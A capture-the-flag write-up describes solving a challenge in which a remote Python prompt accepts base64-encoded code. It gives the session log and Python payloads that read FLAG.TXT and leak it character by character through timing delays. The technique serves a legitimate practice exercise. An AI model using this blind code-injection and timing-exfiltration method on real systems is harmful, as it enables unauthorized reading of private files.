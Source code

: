 ## snakebtte

This challange was worth 100 points, but IMHO harder than others as it required some coding - it was also partly broken; the intended solution didn't work. My guess is that python should've returned output here.

nmap 10.10.0.229 -- port 9999/TCP is open

```
$ telnet 10.10.0.229 9999
Trying 10.10.0.229...
Connected to 10.10.0.229.
Escape character is '^]'.
Python 133.7.0 (default, Jul 15 2042, 10:44:58)
[GCC 168.1.1 20180531] on linix
Type "help", "copyright", "credits" or "license" for more information. Long live the Waterlord!
>>> dummy
RG8gbm90IHR5cGUgdW5lbmNyeXB0ZWQhIFRoZSBkaXJ0LXBlb3BsZSBtaWdodCBiZSBsaXN0ZW5pbmcK
>>> 
```

This looked very familiar - it's a modified python prompt.
The text is base64 and decodes to: "Do not type unencrypted! The dirt-people might be listening"
So my guess was python code can be send base64-encoded. e.g.:

import os => aW1wb3J0IHRpbWUK

If you send invalid python code, the shell will disconnect.
However, commands issued do not return any output, except another command prompt ">>>".

First thing was to find out the pyton version and verify python is actually running our commands:
```
import sys
import time
sys.version[0]=='3' and time.sleep(5)

# translates to:
aW1wb3J0IHN5cwo=
aW1wb3J0IHRpbWUK
c3lzLnZlcnNpb25bMF09PSczJyBhbmQgdGltZS5zbGVlcCg1KQo=
```

The shell indeed paused for 5 seconds, so it's python3.

I guessed the path of the FLAG.TXT correctly - trying to open a nonexistent file will cause the shell to terminate.

To verify this, I checked the start of the file - we already know that flags are in the form DORF18{...}.
0 is the position in the file we're trying to brute-force, D and O are the characters to test for.
This verified that FLAG.TXT is the correct file as it sleeps for 10 seconds:

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
(data)[0]=='D' and time.sleep(5)
(data)[1]=='O' and time.sleep(5)
```

It was impossible to do data exfiltration through os.system(), as the system could not reach the outside.
Thus a time-based method can be used (base64-encode each line individually and send it to the server):

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
(data)[$1]=='$2' and crash
time.sleep(2)
dummy
exit==
```

Our goal is to compare each byte of FLAG.TXT to a charset and measure how long the query took.
The "dummy" line makes the program return the text from the beginning and is used to verify that there was no disconnect or other problem. "crash" is used to make the code exit faster if there's a match.

In order to account for 1337-speak and _ as space and to speed up the exfiltration of the flag, the following was used:
_ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 3 4 5 7 a b c d e f g h i j k l m n o p q r s t u v w x y z . - 2 6 8 9 { }

I wrapped this up in some very ugly bash code + netcat and measured the time for each run and exfiltrating the flag very slowly.
The server only allows one connection at a time, so running multiple instances of the code couldn't work. Only afterwards I noticed I could've used divide-and-conquer (pasting a lot more lines at once) to speed this up reasonably and should've done the used the crash-condition the other way around.
However, I managed to get the Flag about 10 minutes before the CTF was shut down. :)

### FLAG
DORF18{Y0U_S33m_T0_Kn0W_BASE64}

